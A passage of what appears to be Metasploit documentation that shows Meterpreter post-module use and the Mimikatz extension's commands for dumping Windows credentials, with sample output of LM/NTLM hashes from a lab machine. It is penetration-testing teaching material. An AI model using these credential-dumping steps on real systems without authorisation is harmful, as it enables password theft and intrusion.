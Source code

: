 ```
meterpreter > run post/windows/gather/checkvm 

[*] Checking if WIN-6NH0Q8CJQVM is a Virtual Machine .....
[*] This is a VMware Virtual Machine
meterpreter >
```

It is also possible to run a post module via multiple Meterpreter sessions. To learn how, load
the specific post module you wish to run, and enter ```info -d``` to see the basic usage in the
documentation.


**Using the Mimikatz Extension**

[Mimikatz](https://github.com/gentilkiwi/mimikatz) is a well known tool to extract passwords, hashes, PIN code, and kerberos tickets from memory on Windows. This might actually be the first thing you want to use as soon as you get a high-privileged session, such as SYSTEM.

To begin, load the extension:

```
meterpreter > load mimikatz
Loading extension mimikatz...success.
meterpreter > 
```

This will create more commands for the Meterpreter prompt. Most of them are meant to be used to
retrieve user names, hashes, passwords and other information:

```
Mimikatz Commands
=================

    Command           Description
    -------           -----------
    kerberos          Attempt to retrieve kerberos creds
    livessp           Attempt to retrieve livessp creds
    mimikatz_command  Run a custom command
    msv               Attempt to retrieve msv creds (hashes)
    ssp               Attempt to retrieve ssp creds
    tspkg             Attempt to retrieve tspkg creds
    wdigest           Attempt to retrieve wdigest creds
```

An example of using the ```msv``` command:

```
meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

AuthID    Package    Domain           User              Password
------    -------    ------           ----              --------
0;313876  NTLM       WIN-6NH0Q8CJQVM  user10            lm{ 0363cb92c563245c447eaf70cfac29c1 }, ntlm{ 16597a07ce66307b3e1a5bd1b7abe123 }
0;313828  NTLM       WIN-6NH0Q8CJQVM  user10            lm{ 0363cb92c563245c447eaf70cfac29c1 }, ntlm{ 16597a07ce66307b3e1a5bd1b7abe123 }
0;996     Negotiate  WORKGROUP        WIN-6NH0Q8CJQVM$  n.s. (Credentials KO)
0;997     Negotiate  NT AUTHORITY     LOCAL SERVICE     n.s. (Credentials KO)
0;45518   NTLM                                          n.s. (Credentials KO)
0;999     NTLM       WORKGROUP        WIN-6NH0Q8CJQVM$  n.s. (Credentials KO)
```
